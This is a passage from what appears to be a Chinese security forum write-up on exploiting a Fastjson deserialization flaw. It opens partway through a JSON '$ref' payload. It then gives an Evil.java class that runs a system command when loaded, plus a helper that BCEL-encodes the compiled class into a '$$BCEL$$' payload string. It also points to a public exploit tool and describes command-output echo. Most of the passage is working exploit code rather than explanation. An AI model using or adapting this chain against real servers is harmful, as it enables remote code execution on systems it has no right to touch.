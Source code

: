 ```php
 "$ref": "$.x.y.c.connection"
 }
 }
 }
}
```

先准备一个java类 编译成class  
Evil.java

```php
package org.example;
public class Evil {
 static {
 try {
 Runtime.getRuntime().exec("whoami");
 } catch (Exception e) {}
 }
}
```

读取上面class文件

```php
package org.example;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import java.io.BufferedWriter;
import java.io.FileWriter;
import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
public class Main {
 public static void main(String[] args) throws IOException {
 Path path = Paths.get("Evil.class");
 byte[] bytes = Files.readAllBytes(path);
 System.out.println(bytes.length);
 String result = Utility.encode(bytes,true);
 BufferedWriter bw = new BufferedWriter(new FileWriter("res.txt"));
 bw.write("$$BCEL$$" + result);
 bw.close();
 }
}
```

利⽤⼯具：<https://github.com/amaz1ngday/fastjson-exp>  
执⾏命令回显

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-00ba30438e3805b79606a841bd366040972c5ef2.png)  
使用第一个构造命令回显  
也可以使用yakit

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-1f9751dc8bb4d6721b47b1e071bc38718ebc007e.png)
